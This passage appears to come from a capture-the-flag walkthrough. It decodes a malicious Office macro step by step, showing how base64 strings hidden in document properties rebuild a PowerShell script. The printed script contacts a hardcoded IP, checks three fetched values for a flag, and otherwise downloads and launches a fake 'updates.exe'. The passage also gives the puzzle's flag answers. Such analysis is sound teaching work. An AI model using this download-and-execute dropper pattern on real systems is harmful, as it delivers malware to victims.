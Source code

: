 7. Look at the `ghTyUj45d` method. A series of repeated calls to the following two methods are made: 

    ```vb
    qa23erU = yKvCXNf("6vZkvnvaJ")
    cvbNyt = Base64DecodeString(qa23erU)
    ```

    In this instance, `6vZkvnvaJ` is the name of one of the custom properties. The base64-encoded string is retrieved from the document property, then base64 *decoded*. Repeating these steps in order for each line as they are called by the `ghTyUj45d` method helps you recreate a complete PowerShell script.

    ```powershell
    $wscript = New-Object -ComObject WScript.Shell;
    $webClient = New-Object System.Net.WebClient;
    $url = "http://123.45.67.119/GvB5e290UKcTxA88/";$path1 = "trx1.txt";$path2 = "sdey2.txt";$path3 = "ktwm3.txt";

    try
    {
        $Response1 = Invoke-WebRequest -URI ($url + $path1);
        $Response2 = Invoke-WebRequest -URI ($url + $path2);
        $Response3 = Invoke-WebRequest -URI ($url + $path3);

        if ($Response1.Content -eq "5150" -and $Response2.Content -eq "OU81" -and $Response3.Content -eq "1984")
        {
            $fileContent = $Response1.Content + $Response2.Content + $Response3.Content
            Write-Host "You discovered Part 5:" $fileContent.ToUpper();
        }
        else
        {
            Write-Host "Downloading updates . . . !";
            $webClient.DownloadFile($url.ToString, "fsTredwsjUyzv/updates.exe");
            Write-Host "Installing updates . . . !";
            Start-Process ${path};
        }    
    }
    catch
    { 
        write-host $_.Exception.Message; 
    }
    ```

    The script is passed to the `jyCu97WhS` method, which runs the PowerShell script. The most important thing is the script downloads the contents of three files (`trx1.txt`, `sdey2.txt` and `ktwm3.txt`) from `http://123.45.67.119/GvB5e290UKcTxA88/`. It checks to see if the values in those files can be appended to equal the string `5150OU811984`. If so, a message is written to the console stating you discovered Part 5. The value `5150OU811984` is the Part 5 string, which is the second part of Token 2.

    - **Part 4:** `eb68c4`
    - **Part 5:** `5150OU811984`
